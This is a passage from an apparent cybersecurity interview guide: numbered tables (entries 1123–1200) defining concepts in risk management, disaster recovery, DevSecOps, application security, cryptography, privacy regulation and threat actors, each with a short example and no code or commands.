| 1123. Mean Time to Respond (MTTR) | A KPI measuring the average time it takes to contain and remediate an incident once it has been detected. | Automating host isolation via SOAR to drop the MTTR to 5 minutes |
| 1124. Vulnerability Management | The continuous, lifecycle process of identifying, evaluating, prioritising, and mitigating vulnerabilities. | Running weekly authenticated Nessus scans and patching criticals within 48 hours |
| 1125. CVSS (Common Vulnerability Scoring System) | The standardised mathematical framework used to rate the technical severity of software vulnerabilities from 0.0 to 10.0. | Log4Shell receiving a CVSS score of 10.0 due to remote, unauthenticated code execution |
| 1126. Exploitable vs Discovered | The difference between a tool finding a CVE, and the vulnerability actually being reachable or usable by an attacker in your specific context. | A critical flaw exists in an admin portal, but it's only accessible via a hardwired management VLAN |
| 1127. Compensating Control | An alternative security measure used when the primary desired control cannot be implemented due to technical or business constraints. | Unable to patch a legacy medical device, so placing it on a strictly isolated, internet-disconnected VLAN |
| 1128. Shadow IT | Software, devices, or cloud services used by employees without the knowledge or explicit approval of the IT department. | A marketing team storing customer data in a personal Dropbox account, bypassing corporate DLP |
| 1129. Acceptable Use Policy (AUP) | A document stipulating constraints and practices that users must agree to before accessing the corporate network or internet. | Firing an employee for viewing illicit material on a company laptop according to the AUP |
| 1130. Information Security Management System (ISMS) | The holistic framework of policies, processes, and people ensuring the CIA triad is maintained, central to ISO 27001. | The overarching document that links the risk register, policies, and audit schedule together |
| 1131. Security Governance | The alignment of security strategy with business objectives, ensuring risks are managed and regulatory obligations are met by leadership. | The Board of Directors reviewing the quarterly cybersecurity risk posture |
| 1132. Risk Assessment | The formal process of identifying threats, assessing vulnerabilities, and determining the likelihood and impact of harm to the business. | Calculating the financial impact of a 3-day database outage to decide if a backup site is worth the cost |
| 1133. Risk Appetite | The level of risk an organisation is willing to accept in pursuit of its business objectives, guiding control implementation. | A startup accepting the risk of using untested open-source tools to ship faster |
| 1134. Risk Treatment: Accept | Acknowledging the risk but deciding not to implement a control because the cost outweighs the potential impact. | Choosing not to install a $50k physical safe for a $200 laptop |
| 1135. Risk Treatment: Transfer | Shifting the financial impact of a risk to a third party. | Purchasing a comprehensive cyber-liability insurance policy |
| 1136. Risk Treatment: Mitigate | Implementing controls to shrink the likelihood or impact of the risk. | Implementing MFA to drastically reduce the likelihood of credential-stuffing success |
| 1137. Risk Treatment: Avoid | Stopping the activity that causes the risk entirely. | Deciding not to launch an app feature because it requires collecting too much sensitive PII |
| 1138. Third-Party Risk Management (TPRM) | Assessing and monitoring the security posture of vendors, suppliers, and partners who have access to your data or network. | Sending a 200-question security questionnaire to a new SaaS payroll provider |
| 1139. Supply Chain Attack | Compromising an organisation by hiding malicious code in the trusted software or hardware provided by a third-party vendor. | The SolarWinds Orion breach (2020) where attackers poisoned the software updates sent to thousands of companies |
| 1140. Business Continuity Planning (BCP) | The creation of strategies and manual workarounds to ensure critical business functions keep operating during a disaster. | Providing paper forms to hospital staff when the electronic health record system is hit by ransomware |
| 1141. Disaster Recovery (DR) | The technical subset of Business Continuity, focused specifically on restoring IT infrastructure and databases to operational status. | Failing over the primary SQL database to the disaster recovery site in another geographic region |
| 1142. RTO (Recovery Time Objective) | The maximum acceptable duration of time that a system or business process can be offline during a disaster. | A tier-1 payment gateway must have an RTO of less than 1 hour |
| 1143. RPO (Recovery Point Objective) | The maximum acceptable amount of data loss, measured in time, an organisation can tolerate before the disaster occurred. | A financial database taking 5-minute incremental backups has an RPO of 5 minutes |
| 1144. Hot Site | A fully equipped alternate data centre with real-time cloned data, capable of taking over production within minutes. | Used by banks; extremely expensive but offers near-zero RTO. |
| 1145. Cold Site | A leased physical space with power and cooling, but no hardware or data; takes days or weeks to bring online. | Used for non-critical systems where prolonged downtime is acceptable |
| 1146. Tabletop Exercise | A discussion-based simulation where the IR team and executives talk through their response to a hypothetical disaster scenario. | A 3-hour workshop role-playing how the company would handle a critical ransomware infection |
| 1147. Patch vs Vulnerability Management | Patch management is the operational act of installing updates; vulnerability management is the strategic process of discovering, rating, and tracking weaknesses. | Vuln management flags a flaw; Patch management deploys the fix via WSUS |
| 1148. Immutable Backups | Backup copies that cannot be altered, deleted, or encrypted by anyone — including administrators — for a set retention period. | Preventing a ransomware actor with stolen admin credentials from destroying the backup servers |
| 1149. BIA (Business Impact Analysis) | The foundational process of identifying critical systems and determining the financial and operational impact of an outage. | Discovering that restoring the ERP system is more critical than the marketing website |
| 1150. Lessons Learned (IR Phase) | The most critical but often skipped phase of incident response, dedicated to reviewing what failed and how to prevent it again. | Writing a post-mortem report that leads to a new policy banning macro-enabled attachments |

#### 🧬 Advanced DevSecOps, AppSec & Cryptography (1151–1200)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 1151. Shift-Left Security | Moving security testing earlier into the software development lifecycle, rather than waiting until the end to perform a pentest. | Providing developers with IDE plugins that flag insecure code as they type |
| 1152. DevSecOps | The cultural and technical integration of security checks seamlessly into the continuous integration and delivery (CI/CD) pipelines. | A Github Action automatically running a Snyk vulnerability scan on every pull request |
| 1153. SAST (Static Application Security Testing) | Analysing source code from the inside without executing it to find potential security flaws early. | Scanning Java code during the build phase and finding a hardcoded API key |
| 1154. DAST (Dynamic Application Security Testing) | Analysing a running application from the outside by sending simulated attacks to see how the system responds. | Running Burp Suite automated scans against a staging environment to find XSS |
| 1155. IAST (Interactive Application Security Testing) | Combining SAST and DAST by placing an agent inside the running application to monitor code execution during dynamic testing. | Seeing exactly which line of backend code was triggered by an external SQL injection payload |
| 1156. SCA (Software Composition Analysis) | Analysing the third-party open-source libraries and dependencies included in your project for known CVEs or license issues. | Discovering your Node.js app relies on a vulnerable version of the 'lodash' library |
| 1157. Secrets Management | Avoiding hardcoded passwords in code by using dedicated vaults that provide short-lived credentials at runtime via API. | Using HashiCorp Vault to inject a database password directly into a container's memory |
| 1158. IaC (Infrastructure as Code) | Managing and provisioning cloud and networking infrastructure through machine-readable definition files rather than manual clicks. | Using Terraform to spin up 50 AWS EC2 instances perfectly configured in minutes |
| 1159. IaC Security Scanning | Checking Infrastructure as Code templates for misconfigurations before the infrastructure is actually built. | Checkov rejecting a Terraform plan because it attempts to create a public S3 bucket |
| 1160. CI/CD Pipeline Attack | Compromising the automated build system itself to inject malicious code into a trusted software release. | Gaining access to a Jenkins server and poisoning the software update mechanism |
| 1161. Input Validation | Ensuring that data entered by a user exactly matches expected formats, length, and content before the application processes it. | Rejecting a phone number field entry that contains alphabetical characters |
| 1162. Output Encoding | Converting untrusted user data into a safe form where the browser interprets it as text rather than executable code. | Encoding `<script>` to `&lt;script&gt;` so it fails to execute, preventing XSS |
| 1163. Parameterised Queries (Prepared Statements) | The absolute best defence against SQL injection; separating the SQL code from the user-supplied data at the database driver level. | Using Python `psycopg2` passing variables via `%s` rather than string concatenation |
| 1164. CSRF (Cross-Site Request Forgery) | An attack that tricks a victim's browser into executing an unwanted action on a site where they are currently authenticated. | Tricking a logged-in bank user into clicking a link that silently transfers money |
| 1165. Anti-CSRF Tokens | Unpredictable, hidden, session-unique tokens included in web forms that the server verifies before processing a state-changing request. | A hidden `<input>` field containing a 32-character random string submitted alongside a password change |
| 1166. SSRF (Server-Side Request Forgery) | Tricking the backend server into making an HTTP request to an internal resource that the attacker cannot reach directly. | Making a web app request the AWS metadata IP `169.254.169.254` to steal temporary IAM credentials |
| 1167. Code Signing | Applying a cryptographic digital signature to software to verify the publisher's identity and ensure the code has not been tampered with. | A Windows executable signed with a DigiCert certificate, preventing SmartScreen warnings |
| 1168. OWASP Top 10 | A globally recognised awareness document representing the ten most critical security risks to web applications. | A standard baseline for pentest reporting; Broken Access Control currently sits at #1 |
| 1169. WAF (Web Application Firewall) | A reverse proxy placed in front of web applications to inspect HTTP traffic and block common attacks like SQLi and XSS. | Cloudflare WAF preventing a malicious botnet from brute-forcing a login endpoint |
| 1170. Symmetric Encryption | Cryptography where the exact same key is used to both encrypt and decrypt the data. Very fast, used for bulk data. | AES-256 (Advanced Encryption Standard) used to encrypt a hard drive |
| 1171. Asymmetric Encryption | Cryptography using two mathematically linked keys (Public and Private); what one encrypts, only the other can decrypt. Slower, solves key distribution. | RSA-2048 used to securely exchange the symmetric key during a TLS handshake |
| 1172. Hashing | A one-way cryptographic mathematical algorithm that takes an input of any size and produces a fixed-size string. Cannot be decrypted. | SHA-256 generating a unique fingerprint for a malware file to be checked on VirusTotal |
| 1173. Digital Signatures | Using hashing and asymmetric encryption to provide authentication, non-repudiation, and data integrity for a message. | Encrypting the hash of a PDF with your private key so anyone with your public key knows you signed it |
| 1174. Salt (Cryptography) | Random data appended to a password before it is hashed, ensuring that identical passwords produce completely different hashes. | Defeats pre-computed Rainbow Table attacks against stolen password databases |
| 1175. Forward Secrecy | A property of secure communication protocols where compromising the long-term private key does not compromise past session keys. | Using Ephemeral Diffie-Hellman (ECDHE) in TLS 1.3 so recorded traffic cannot be decrypted later |
| 1176. Certificate Authority (CA) | A trusted third-party entity that issues digital certificates, verifying the identity of the certificate owner. | Let's Encrypt or GlobalSign issuing the TLS certificate for a bank's website |
| 1177. Root vs Intermediate CA | The Root CA is kept offline and highly secure; it signs Intermediate CAs, which are kept online to sign end-entity web certificates. | Reduces the risk; if the Intermediate is compromised, the Root can revoke it without destroying the whole PKI |
| 1178. Quantum Cryptography Threat | The theoretical reality that sufficiently powerful quantum computers could crack RSA and ECC asymmetric encryption instantly using Shor's algorithm. | The drive toward NIST Post-Quantum Cryptography algorithms to protect data today that might be decrypted tomorrow |
| 1179. Steganography | The practice of concealing a secret message, file, or payload within an ordinary, non-secret file (like an image). | Malware hiding its C2 configuration data inside the pixels of a benign-looking logo on a website |
| 1180. Obfuscation | Deliberately making code incredibly difficult for humans and analysis tools to read and understand, without changing how it executes. | Malware packing or renaming all variables to `a`, `b`, `c` to bypass basic antivirus signatures |
| 1181. API Security (OAuth 2.0) | An authorisation framework that allows third-party applications limited access to a user's account without exposing their password. | Logging into a new app using "Sign in with Google" |
| 1182. API Rate Limiting / Throttling | Restricting the number of requests a user or IP can make to an API within a specific timeframe to prevent DoS or brute forcing. | Allowing a maximum of 5 password-reset requests per IP per hour |
| 1183. JWT (JSON Web Token) | A compact, URL-safe means of representing claims to be transferred between two parties, digitally signed for integrity. | Used commonly in stateless APIs; the client stores the JWT and sends it in the Authorization header |
| 1184. Privacy vs Security | Security is about protecting data from unauthorised access; Privacy is about ensuring data is collected, used, and shared legally and ethically. | Security = Encrypting the database. Privacy = Having a lawful right to collect the data in the database |
| 1185. GDPR (General Data Protection Regulation) | The strict EU privacy law granting subjects the right to access, delete, and control their data, imposing massive fines for breaches. | Requiring explicit consent for tracking cookies and mandating breach reporting within 72 hours |
| 1186. CCPA (California Consumer Privacy Act) | The primary US state privacy law granting Californian consumers the right to know what data is collected and 'opt-out' of its sale. | Mandating a "Do Not Sell My Personal Information" link on the homepage |
| 1187. SOC 2 Type II | An auditing standard evaluating a service organisation's controls relevant to security, availability, and confidentiality over a period of time (e.g. 6-12 months). | B2B SaaS companies use this report to prove to enterprise clients that they are secure |
| 1188. ISO 27001 | The premier international standard for building, operating, and continuously improving an Information Security Management System (ISMS). | Requires formal risk management and executive commitment, subject to external certification audits |
| 1189. NIST CSF (Cybersecurity Framework) | A completely voluntary US government framework organising security into Identify, Protect, Detect, Respond, and Recover. | Widely adopted by enterprises as a plain-language way to report security maturity to the board |
| 1190. Threat Actor | The individual, group, or state conducting malicious operations against an organisation. | A financially motivated cyber-criminal gang like LockBit |
| 1191. APT (Advanced Persistent Threat) | Highly resourced, highly skilled threat actors, usually nation-states, who maintain long-term covert access to steal specific intelligence. | Notorious groups like Russia's APT29 (Cozy Bear) or China's APT41 |
| 1192. Living off the Land (LotL) | Identifying and using native, legitimate system tools (like PowerShell or WMI) to conduct malicious actions, avoiding the need to drop detectable malware. | Using Windows `certutil.exe` to download a payload instead of writing a custom downloader script |
| 1193. Kill Switch | A mechanism built into malware or systems to immediately halt an operation. | Marcus Hutchins registering the unregistered domain he found in the WannaCry code, instantly halting the global infection |
| 1194. Polymorphic Malware | Malware that alters its observable characteristics (like its file hash) every time it replicates, defeating basic signature-based antivirus. | Modifying its own encryption routine when moving to a new host so the file hash completely changes |
| 1195. Ransomware | Malicious software that uses strong encryption to lock users out of their data until a cryptocurrency ransom is paid. | Ryuk or Conti encrypting all file servers and demanding 50 Bitcoin for the decryption key |
| 1196. Double Extortion | A variant of ransomware where the attacker first steals the sensitive data, then encrypts it. If the victim refuses to pay, the attacker threatens to leak the data online. | Exfiltrating 2TB of patient health records before encrypting the hospital's database |
| 1197. Container Escape | A severe exploit where an attacker breaking into a Docker container manages to break out and gain root execution on the underlying host operating system. | Usually requires the container to have been improperly run in 'privileged' mode |
| 1198. Server-Side Request Forgery vs CSRF | SSRF tricks the *server* into making a malicious request on the attacker's behalf; CSRF tricks the *user's browser* into making a malicious request. | SSRF attacks internal cloud APIs; CSRF steals money from a logged-in user |
| 1199. FIDO2 / Passkeys | The modern standard for passwordless authentication, using public-key cryptography and local biometrics (FaceID/TouchID) to completely eliminate phishing. | Logging into a website using your phone's fingerprint sensor; the private key never leaves the device's secure enclave |
| 1200. Continuous Improvement / Post-Mortem | The hallmark of a mature security programme: acknowledging that perfection is impossible, learning deeply from every incident, and engineering out the root causes. | Conducting a blameless post-mortem after an outage to ensure the automated detection rule is fixed for next time |

</section>
